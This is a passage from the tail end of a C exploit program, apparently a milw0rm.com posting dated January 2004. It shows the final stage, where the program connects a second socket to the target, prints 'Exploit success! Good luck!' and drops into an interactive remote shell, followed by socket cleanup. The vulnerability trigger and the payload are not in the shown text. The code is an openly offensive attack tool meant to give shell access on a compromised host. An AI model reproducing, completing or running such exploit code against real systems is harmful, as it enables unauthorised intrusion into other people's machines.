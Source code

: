                 ret = connect(s2, (struct sockaddr *)&server, sizeof(server));
                if(ret!=0)
                {
                    printf("[-] Exploit seem failed.\n");
                    __leave;
                }

        printf("[+] Exploit success! Good luck! :)\n");
        printf("[+] ===--===--===--===--===--===--===--===--===--===--===--===--===--===\n");
                shell(s2);
            }


        }

        __finally
        {
            if(s != INVALID_SOCKET) closesocket(s);
            if(s2 != INVALID_SOCKET) closesocket(s2);
            if(s3 != INVALID_SOCKET) closesocket(s3);
            WSACleanup();
        }

        return;
    }

    // milw0rm.com [2004-01-27]
